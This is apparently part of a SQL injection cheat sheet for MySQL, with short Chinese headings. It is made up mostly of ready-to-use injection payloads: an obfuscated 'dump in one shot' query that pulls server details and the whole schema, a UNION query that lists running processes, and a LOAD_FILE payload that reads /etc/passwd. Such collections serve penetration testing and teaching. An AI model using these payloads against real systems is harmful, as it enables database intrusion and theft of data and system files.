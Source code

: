 ```sql
+/*!13337concat*/(0x3c616464726573733e3c63656e7465723e3c62723e3c68313e3c666f6e7420636f6c6f723d22526564223e496e6a6563746564206279204e315a344d3c2f666f6e743e3c68313e3c2f63656e7465723e3c62723e3c666f6e7420636f6c6f723d2223663364393361223e4461746162617365207e3e3e203c2f666f6e743e,database/**N1Z4M**/(),0x3c62723e3c666f6e7420636f6c6f723d2223306639643936223e56657273696f6e207e3e3e203c2f666f6e743e,@@version,0x3c62723e3c666f6e7420636f6c6f723d2223306637363964223e55736572207e3e3e203c2f666f6e743e,user/**N1Z4M**/(),0x3c62723e3c666f6e7420636f6c6f723d2223306639643365223e506f7274207e3e3e203c2f666f6e743e,@@port,0x3c62723e3c666f6e7420636f6c6f723d2223346435613733223e4f53207e3e3e203c2f666f6e743e,@@version_compile_os,0x2c3c62723e3c666f6e7420636f6c6f723d2223366134343732223e44617461204469726563746f7279204c6f636174696f6e207e3e3e203c2f666f6e743e,@@datadir,0x3c62723e3c666f6e7420636f6c6f723d2223333130343362223e55554944207e3e3e203c2f666f6e743e,UUID/**N1Z4M**/(),0x3c62723e3c666f6e7420636f6c6f723d2223363930343637223e43757272656e742055736572207e3e3e203c2f666f6e743e,current_user/**N1Z4M**/(),0x3c62723e3c666f6e7420636f6c6f723d2223383432303831223e54656d70204469726563746f7279207e3e3e203c2f666f6e743e,@@tmpdir,0x3c62723e3c666f6e7420636f6c6f723d2223396336623934223e424954532044455441494c53207e3e3e203c2f666f6e743e,@@version_compile_machine,0x3c62723e3c666f6e7420636f6c6f723d2223396630613838223e46494c452053595354454d207e3e3e203c2f666f6e743e,@@CHARACTER_SET_FILESYSTEM,0x3c62723e3c666f6e7420636f6c6f723d2223393234323564223e486f7374204e616d65207e3e3e203c2f666f6e743e,@@hostname,0x3c62723e3c666f6e7420636f6c6f723d2223393430313333223e53797374656d2055554944204b6579207e3e3e203c2f666f6e743e,UUID/**N1Z4M**/(),0x3c62723e3c666f6e7420636f6c6f723d2223613332363531223e53796d4c696e6b20207e3e3e203c2f666f6e743e,@@GLOBAL.have_symlink,0x3c62723e3c666f6e7420636f6c6f723d2223353830633139223e53534c207e3e3e203c2f666f6e743e,@@GLOBAL.have_ssl,0x3c62723e3c666f6e7420636f6c6f723d2223393931663333223e42617365204469726563746f7279207e3e3e203c2f666f6e743e,@@basedir,0x3c62723e3c2f616464726573733e3c62723e3c666f6e7420636f6c6f723d22626c7565223e,(/*!13337select*/(@a)/*!13337from*/(/*!13337select*/(@a:=0x00),(/*!13337select*/(@a)/*!13337from*/(information_schema.columns)/*!13337where*/(table_schema!=0x696e666f726d6174696f6e5f736368656d61)and(@a)in(@a:=/*!13337concat*/(@a,table_schema,0x3c666f6e7420636f6c6f723d22726564223e20203a3a203c2f666f6e743e,table_name,0x3c666f6e7420636f6c6f723d22726564223e20203a3a203c2f666f6e743e,column_name,0x3c62723e))))a))+

-- sharik
(select(@a)from(select(@a:=0x00),(select(@a)from(information_schema.columns)where(table_schema!=0x696e666f726d6174696f6e5f736368656d61)and(@a)in(@a:=concat(@a,table_name,0x203a3a20,column_name,0x3c62723e))))a)
```

## MySQL 当前查询

此表可以列出数据库当前正在执行的所有操作。

```sql
union SELECT 1,state,info,4 FROM INFORMATION_SCHEMA.PROCESSLIST #

-- 一次性转储表内容的示例。
union select 1,(select(@)from(select(@:=0x00),(select(@)from(information_schema.processlist)where(@)in(@:=concat(@,0x3C62723E,state,0x3a,info))))a),3,4 #
```

## MySQL 读取文件内容

需要 `filepriv`，否则会出现错误：`ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement`

```sql
' UNION ALL SELECT LOAD_FILE('/etc/passwd') --
```
